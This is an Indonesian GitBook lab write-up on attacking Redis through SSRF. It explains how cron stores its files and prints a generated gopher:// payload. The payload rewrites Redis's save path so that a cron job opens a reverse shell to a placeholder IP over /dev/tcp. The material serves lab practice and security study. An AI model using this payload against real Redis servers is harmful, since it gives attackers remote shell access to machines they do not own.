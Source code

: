 ![SSRF Lab Web](../../.gitbook/assets/screenshot-from-2019-05-26-22-17-58.png)

{% hint style="warning" %}
**Setiap** _**Payload**_ yang di-generate pada tulisan ini, akan dimasukan sebagai URL di SSRF Lab Web, sehingga tidak perlu lagi ada screenshoot proses attack ke Lab. Informasi ini diberikan agar tidak ada kebingugan mengenai bagaimana cara attack-nya
{% endhint %}

{% hint style="info" %}
**Secara default**, Redis berjalan dengan _low priviliege_ yaitu sebagai user 'redis'. Pada Lab sengaja  menggunakan _privilege_ _root_ agar bisa me-write crontab dan authorized\_key ssh, karena dengan user 'redis' tidak memiliki permission untuk melakukan _write_ pada kedua file tersebut.
{% endhint %}

## Redis And SSRF

### Redis - Cron

Cron adalah _scheduler task_ pada linux, cron akan mengeksekusi perintah yang di-set menggunakan _command_  `crontab` secara periodik sesuai dengan waktu yang di-set.

`Cron` menyimpan crontab file di `/var/spool/cron/<Username>` \(Centos\), `/var/spool/cron/crontabs/<Username>` \(Ubuntu\) dan S_ystem Wide_ crontab berada di `/etc/crontabs`.

Lab sengaja menggunakan 2 OS berbeda karena memang ada sedikit perbedaan _behavior_ antara cron di Centos dan Ubuntu.

{% code-tabs %}
{% code-tabs-item title="payload\_redis.py" %}
```python
$ python payload_redis.py cron
Reverse IP > 
Port > 
Centos/Ubuntu (Default Centos)      
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A
%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2477%0D%0A%0A
%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E
%26%20/dev/tcp/b%27XXX.XXX.XXX.XXX%27/8080%200%3E%261%27%0A%0A%0D%0A%
2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A
%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243
%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D
%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```
{% endcode-tabs-item %}
{% endcode-tabs %}
